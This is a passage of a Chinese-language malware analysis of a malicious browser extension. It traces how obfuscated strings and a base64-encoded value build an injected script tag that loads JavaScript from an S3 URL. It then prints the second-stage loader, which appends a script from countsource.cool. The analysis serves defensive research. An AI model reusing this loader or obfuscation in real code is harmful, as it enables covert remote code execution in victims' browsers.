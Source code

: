 ```
    `}`,
    "call_document_removeChild": `{`
        "info": "call document.removeChild",
        "capture": ["remove element `{`elementName:fieldset`}`", "remove element `{`elementName:fieldset`}`", "remove element `{`elementName:fieldset`}`"]
    `}`,
    "set_scriptSrcValue": `{`
        "info": "set script src unsafe value",
        "capture": ["//s3.amazonaws.com/js-static/18ced489204f8ff908.js"]
    `}`
`}`
```

可以看到插件代码创建了script标签，然后将script标签的src属性设置为：

//s3.amazonaws.com/js-static/18ced489204f8ff908.js。

### ****2.3  插件恶意代码分析****

为了进一步研究该组织木马的特征，我们对该恶意插件的代码进行了人工分析。恶意插件的代码量较大，结构混乱，包含大量干扰代码。

首先恶意代码预先设置了许多无明显意义的字符串，用于构造Payload。

[![](https://p3.ssl.qhimg.com/t01fdca8f4d8231fc92.png)](https://p3.ssl.qhimg.com/t01fdca8f4d8231fc92.png)

这些字符串通过下面方法的一系列转换最终构造出创建script标签的语句 document[‘createElement’](‘script’)，doctype即为创建出来的script对象。

[![](https://p0.ssl.qhimg.com/t0179335e6f7eace036.png)](https://p0.ssl.qhimg.com/t0179335e6f7eace036.png)

接下来为script对象的src属性赋值，在addHandler方法中，cl这个参数由elem传递过来，其中包含src字符串，通过cl[0].split(‘&gt;’).slice(2, 3)拿到关键字src，tag是上文的doctype变量也就是script对象，在构造src值这部分，可以看到在常量中有一串一部分很像是base64的字符串：

```
mawaid = '^\\%|PCQxPjwkMT5zM|y5hbWF6b25hd3Mu|?:^[^\\\\]+?:\\%\\.*\t
```

恶意代码利用该字符串结合其他预设变量进行一系列转换，最终形成base64后的加载地址：

PCQxPjwkMT5zMy5hbWF6b25hd3MuY29tPCQxPmpzLXN0YXRpYzwkMT4xOGNlZDQ4OTIwNGY4ZmY5MDguanM：

[![](https://p1.ssl.qhimg.com/t01fe1d07f8db6a8b73.png)](https://p1.ssl.qhimg.com/t01fe1d07f8db6a8b73.png)

通过createLinkPseudo方法解base64，经过replace后形成恶意地址//s3.amazonaws.com/js-static/18ced489204f8ff908.js；

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t019e3e21f04bab7621.png)

s3.amazonaws.com/js-static/18ced489204f8ff908.js的主要目的是加载下一层的恶意Javascript文件（//countsource.cool/18ced489204f8ff908.js），代码如下：

```
(function()`{`var a=document.createElement("script");a.src="//countsource.cool/18ced489204f8ff908.js";(document.head||document.documentElement).appendChild(a)`}`)();;
```
